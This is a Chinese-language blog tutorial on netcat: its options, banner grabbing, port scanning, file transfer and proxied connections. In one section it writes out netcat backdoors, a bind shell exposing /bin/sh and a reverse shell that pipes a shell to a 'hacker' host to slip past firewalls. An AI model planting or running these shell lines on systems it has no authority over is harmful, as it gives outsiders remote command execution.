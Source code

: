 ```yaml
---
layout: post
title: "Netcat/nc命令使用技巧"
subtitle:
description: ""
category: 玩转linux
author: "fishcried"
header-img: "img/bg/home-bg.jpg"
tags:
    - nc
    - netcat
    - 网络
---
```


netcat网络安全界的“瑞士军刀”，简单实用。可以用来扫描端口，指纹探查，聊天，传输文件，后门等等，常常会有你意想不到的使用方式。

# 1. Netcat的常用选项

	-h			擦，记不住参数，就help啊
	-l			监听模式
	-p port		制定本地端口号
	-r			随机本地与远程端口
	-s addr		指定本地地址
	-C			使用CRLF换行方式
	-k			支持多链接 
	-e			绑定执行程序(后门),这个应该是特定版本才有
	-n			制定数字ip
	-v			输出详细信息，-vv更详细
	-w timeout	制定超时
	-z			端口扫描模式
	
# 2. 使用实例

## 2.1  连接远程主机端口

	test@test:~$ nc -nvv testip 21
	Connection to testip 21 port [tcp/*] succeeded!
	
	220 xxx FTP server ready.
	530 Please login with USER and PASS

通过这种方式，可以查看远程主机端口是否开启，甚至能够看到该端口运行的服务,也叫flag识别。也可以通过这种方式验证两台机器之间的通信是否被防火墙阻断。查看对断的端口是否开放。端口探测还是非常实用的。

## 2.2 端口扫描

	nc -nvv ip 20-30

## 2.3 两台设备之间通信

	nc -l 1234 > fname.out
	nc host.example.com 1234 < fname.in

两台机器之间可以通信了，那么可以做的事情太多了，一切都是数据，一切都可以传输 。无聊的话，也可以用来了把妹聊天。最好传输文件之前能把数据压缩加密，隐私什么的要注意的。

## 2.3 当后门来玩

	#正向连接后门
	target: nc -l -p 2345 -e /bin/sh
	hacker: nc target 2345
	
	#反向连接后门,容易突破防火墙
	hacker:
			nc -l -p 2345
			nc -l -p 2346
	target:	
			nc hacker 2345 | /bin/sh | nc hacker 2346

## 2.4 More

1. `nc -p 31337 -w5 host.example.com 80` : 使用本地31137端口连接host.example.com的80端口，5秒超时
1. `nc -u host.example.com 53`: dns探查
1. `nc -x10.2.3.4:8080 -Xconnect host.example.com 80` :使用代理方式连接对方80端口
1. `echo 'i found you' | nc -k -p  >> aha.log`:  有点密罐的意思

# 修改记录

|Why | Who | When |
|----|-----|------|
|整理旧文档|fishcired|2014-06-22|
